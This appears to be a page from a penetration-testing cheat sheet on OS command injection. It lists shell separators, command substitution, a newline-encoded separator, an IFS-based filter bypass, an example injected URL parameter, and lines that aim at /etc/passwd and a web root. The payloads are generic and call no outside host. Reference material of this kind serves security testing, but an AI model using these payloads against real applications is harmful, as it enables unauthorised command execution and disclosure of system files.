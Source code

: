 ### Payloads

{% hint style="success" %}
In Unix-like command-line interfaces, the `--` symbol is used to signify the end of command options. After `--`, all arguments are treated as filenames and arguments, and not as options.
{% endhint %}

{% hint style="info" %}
We should try following payloads in input fields&#x20;

```
#Exemple
http://example.org?vuln=param;sleep+5
```
{% endhint %}

{% tabs %}
{% tab title="Windows & UNIX-Like" %}
Following payloads are both Unix and Windows supported

* `;` (Semicolon): Allows you to execute multiple commands sequentially.
* `&&` (AND): Execute the second command only if the first command succeeds (returns a zero exit status).
* `||` (OR): Execute the second command only if the first command fails (returns a non-zero exit status).
* `&` (Background): Execute the command in the background, allowing the user to continue using the shell.
* `|` (Pipe): Takes the output of the first command and uses it as the input for the second command.

```bash
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
command1 %0A command2 # %0A (linefeed) Execute both (RECOMMENDED)

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
{% endtab %}

{% tab title="UNIX-like" %}
Following payloads are only unix supported

```bash
# Using backticks: ``
`command1`

# Using substitution: $()
$(command1)

# Might be useful
ls${LS_COLORS:10:1}${IFS}id
```
{% endtab %}
{% endtabs %}
